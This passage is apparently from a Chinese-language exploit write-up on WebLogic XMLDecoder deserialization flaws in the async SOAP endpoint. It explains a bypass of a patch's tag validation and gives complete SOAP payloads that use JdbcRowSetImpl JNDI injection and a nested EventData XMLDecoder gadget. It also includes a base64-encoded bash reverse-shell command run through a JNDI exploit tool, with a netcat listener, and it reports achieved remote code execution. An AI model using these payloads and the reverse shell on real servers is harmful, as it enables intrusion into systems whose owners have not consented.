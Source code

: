 我们把void class换成class，把void property换成property，换掉后的标签就避开了void标签只能跟index的validate补丁，同时也是适配jdk7的解析标签的方式

```xml
<java><class><string>com.sun.rowset.JdbcRowSetImpl</string><void><property name="dataSourceName"><string>rmi://192.168.1.11:1099/bpjuf6</string></property><property name="autoCommit"><boolean>true</boolean></property></void></class></java>
```

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java><class><string>com.sun.rowset.JdbcRowSetImpl</string><void><property name="dataSourceName"><string>rmi://192.168.1.11:1099/bpjuf6</string></property><property name="autoCommit"><boolean>true</boolean></property></void></class></java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

再请出我们的jndi一把嗦的工具

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguMS4xMS84NDI2IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.1.11"
# rmi://192.168.1.11:1099/bpjuf6
nc -lvvp 8426
```

![image-20221013164347724](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013164347724.png)

rce到手

#### poc3 - EventData(weblogic 12.1.3)

继续换了一个类来利用，不过这个更弔

```java
public EventData(String xml) {
    ByteArrayInputStream bais = new ByteArrayInputStream(xml.getBytes());

    try {
        XMLDecoder decoder = new XMLDecoder(bais);
        this.eventData = (Map)decoder.readObject();
    } catch (Exception var4) {
        throw new EventException("Error decoding " + xml, var4);
    }
}
```

看这个类的构造方法，直接将传入的xml交给XMLDecoder.readObject了，简单粗暴，再加上本身的一层XMLDecoder，我们的payload需要被两次XMLDecode解析，所以将第二次的解析内容放入`<![CDATA]>`中，第二次的XMLDecoder不经过黑名单，无jdk版本限制，所以可以用2017-3506的payload

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java><class><string>org.slf4j.ext.EventData</string><void><string><![CDATA[<java version="1.8.0_131" class="java.beans.XMLDecoder"><object class="java.lang.ProcessBuilder"><array class="java.lang.String" length="1"><void index="0"><string>calc</string></void></array><void method="start" /></object></java>]]></string>
</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```
